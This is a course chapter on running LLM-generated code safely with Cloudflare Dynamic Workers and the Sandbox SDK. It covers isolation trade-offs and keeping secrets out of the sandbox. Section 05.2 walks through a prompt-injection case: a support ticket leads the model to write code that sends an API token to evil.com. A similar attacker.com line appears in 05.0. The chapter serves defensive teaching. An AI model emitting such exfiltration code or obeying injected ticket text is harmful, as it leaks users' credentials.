


# Chapter 05 — Dynamic Workers & Sandbox Isolation

> **Lecture 31 · Chapter 05 of 08** · Level: 🟠 Advanced · Phase 7 — Connectors, Code Mode & Proactive Workflows
> **Source:** `Cloudflare Code Mode Blog & Docs` · **Roadmap Reference:** [`roadmap-v1.md`](../../roadmap-v1.md#lecture-31--cloudflare-code-mode--isolated-code-execution-mcp-cloudflarecodemode)
> **Roadmap topics:** Why `eval()` is unsafe · V8 isolates vs. Docker containers · Dynamic Workers (`env.LOADER`) · `globalOutbound: null` · keeping secrets & intermediate loops out of LLM context · Cloudflare Sandbox SDK (GA).

---

## 05.0 What this chapter is for

Code Mode requires running **untrusted, LLM-generated JavaScript/TypeScript on the fly**. Using `eval()`, `new Function()`, or Node's `vm` module in your host process is an instant **Remote Code Execution (RCE)** vulnerability — generated code could read `process.env.API_KEY` or `fetch("https://attacker.com/?secret=" + token)`.

On the other hand, booting a fresh Docker container per tool call takes **500 ms–2 seconds** and hundreds of megabytes of RAM. **Cloudflare Dynamic Workers** solve this with **V8 Isolates** that boot in **a few milliseconds** using **a few megabytes of memory**. And when your agent *does* need a full Linux OS (`python3`, `bash`, `git`), **Cloudflare Sandbox SDK (GA)** provides a Durable Object + Linux container runtime.

By the end of this chapter you should be able to:

1. Compare **V8 Isolates (Dynamic Workers)** vs. **Containers** vs. **MicroVMs** for latency, memory, and isolation.
2. Explain how `globalOutbound: null` blocks arbitrary network exfiltration from inside the sandbox.
3. Explain why **secrets never enter the sandbox** — only host-side RPC proxies hold credentials.
4. Choose accurately between **Dynamic Workers (`env.LOADER`)** and **Cloudflare Sandbox SDK (GA) (`@cloudflare/sandbox`)**.

---

## 05.1 V8 Isolates vs. Containers vs. MicroVMs

| Runtime | Cold Start | Memory Overhead | Network Isolation | Best For |
| :--- | :---: | :---: | :--- | :--- |
| **V8 Isolate (Dynamic Worker)** | **~2–5 ms** | **~3–10 MB** | `globalOutbound: null` (zero raw `fetch`) | High-frequency JS/TS Code Mode execution |
| **Container (Docker / Sandbox SDK)** | `500–2,000 ms` | `100–512 MB` | `--network=none` / egress policy | Arbitrary Python/C++/CLI binaries, `git`, `bash` |
| **MicroVM (Firecracker / Kata)** | `120–250 ms` | `50–128 MB` | Hardware-virtualized | Untrusted multi-tenant full OS workloads |



---

## 05.2 Three security invariants of `DynamicWorkerExecutor`

1. **No Ambient Network (`globalOutbound: null`):** Code inside the Dynamic Worker cannot open sockets or `fetch()` arbitrary external URLs — eliminating DNS/HTTP data exfiltration.
2. **No Secret Access:** `env.API_TOKEN` lives strictly in the Host Worker. The isolate only sees the `codemode.*` or `request()` RPC stub.
3. **Ephemeral State & CPU Caps:** Each execution runs in a fresh, disposable isolate with strict CPU/wall-clock limits, so infinite `while (true) {}` loops are killed automatically without affecting other tenants.

### Concrete Attack Walkthrough: Prompt-Injected Code Inside `execute()`

Suppose an attacker injects malicious instructions into a support ticket, causing the LLM to generate:
```javascript
// Prompt-injected payload inside execute()
const secret = process?.env?.API_TOKEN ?? globalThis?.API_TOKEN;
await fetch("https://evil.com/steal?token=" + secret);
```

Here is what happens at runtime inside `DynamicWorkerExecutor`:
1. `secret` evaluates to **`undefined`** — host bindings and `process.env` never cross into the isolate.
2. `fetch("https://evil.com/...")` **throws immediately** because `globalOutbound: null` disables all direct outbound networking.
3. Even if the code tries `request({ url: "https://evil.com/..." })`, the Host Worker's `request()` proxy rejects any URL outside `ALLOWED_BASE_URL`!

> [!IMPORTANT]
> **Defense in depth:** `globalOutbound: null` blocks *direct* exfiltration from the isolate, and your Host Worker `request()` proxy blocks *indirect* SSRF/exfiltration through the RPC bridge. You need both.

---

## 05.3 Cloudflare Sandbox SDK (GA) vs. Dynamic Workers

Cloudflare ships **two distinct sandbox primitives** — choosing the right one depends on whether your agent needs **JS/TS API glue** or a **full Linux OS**:

| Feature | **Dynamic Workers** (`env.LOADER`) | **Cloudflare Sandbox SDK (GA)** (`@cloudflare/sandbox`) |
| :--- | :--- | :--- |
| **Underlying Runtime** | V8 Isolate | Durable Object + Linux Container |
| **Cold Start** | **~2–5 ms** | **~1–2 s** (warm sleep/wake lifecycle) |
| **Languages & Binaries** | JS / TS only | Full Linux (`bash`, `python3`, `git`, `pip`, `npm`, CLI binaries) |
| **Filesystem** | Ephemeral / in-memory | Persistent container filesystem + bucket mounts + backups |
| **Processes & Ports** | Single short-lived `execute()` | `exec()`, `startProcess()`, `terminal()`, **preview URLs** (`exposePort`) |
| **Best For** | Code Mode (`codeMcpServer` / `openApiMcpServer`) | SWE coding agents, Python data analysis, git workflows, OpenAI Agents SDK |



### Wiring `@cloudflare/sandbox` with OpenAI Agents SDK

When an OpenAI Agent needs a persistent Linux workspace (instead of just JS/TS Code Mode), bind a Durable Object `Sandbox` namespace and expose `exec` / `files` / `preview` tools using the stable `@cloudflare/sandbox` contract:

```ts
import { getSandbox, Sandbox } from "@cloudflare/sandbox";
export { Sandbox };

// Bind each user or conversation thread to an isolated Linux container
const sandbox = getSandbox(env.Sandbox, `thread-${threadId}`);
const result = await sandbox.exec('python3 -c "print(2 + 2)"');
// result -> { stdout, stderr, exitCode, success }
```

- **References:** [Cloudflare Sandbox GA](https://blog.cloudflare.com/sandbox-ga/) · [Dynamic Workers](https://blog.cloudflare.com/dynamic-workers/) · [Agents Sandbox Tools](https://developers.cloudflare.com/agents/tools/sandbox/) · [OpenAI Agents + Cloudflare Sandbox Tutorial](https://developers.cloudflare.com/sandbox/sdk/tutorials/openai-agents/)

> [!TIP]
> **Rule of thumb:** Use **Dynamic Workers** for Code Mode (`search`/`execute` over APIs) because 2–5 ms cold starts feel instant. Use **Cloudflare Sandbox SDK (GA)** when the agent needs `python3`, `bash`, `git`, or a persistent filesystem.

---

## 05.4 Common mistakes

| # | Common Mistake | Why It Hurts | What To Do Instead |
| :--- | :--- | :--- | :--- |
| **1** | **Using `eval()` or Node `vm` to run LLM-generated JS** | Trivial sandbox escape exposes `process.env` and host network | Use `DynamicWorkerExecutor` (`env.LOADER`) with V8 isolate boundaries |
| **2** | **Leaving outbound networking enabled inside the isolate** | Prompt-injected code can `fetch()` stolen data to an attacker server | Set `globalOutbound: null` so all network calls must go through the Host proxy |
| **3** | **Passing API keys into the sandbox environment** | Any code inside `execute()` can read and return the secret | Keep all secrets in the Host Worker and inject headers only in `request()` |
| **4** | **Trying to run `python3` or `git` inside a V8 Isolate** | V8 isolates only execute JS/TS | Use **Cloudflare Sandbox SDK (`@cloudflare/sandbox`)** for Linux/Python workloads |

---

## 05.5 Key takeaways

1. **Dynamic Workers boot in milliseconds** (~100× faster than containers) with strong V8 memory isolation for JS/TS Code Mode.
2. **`globalOutbound: null` + Host RPC Proxy** guarantees zero credential leakage even if prompt-injected code runs inside the sandbox.
3. **Use `@cloudflare/sandbox` (GA)** when the agent needs a **full Linux OS** (`python3`, `bash`, `git`, preview URLs, or OpenAI Agents SDK workspace sessions).

---

**Next:** [Chapter 06 — OAuth 2.1 & Scoped Delegated Execution](./06_OAuth_2_1_and_Scoped_Delegated_Execution.md)
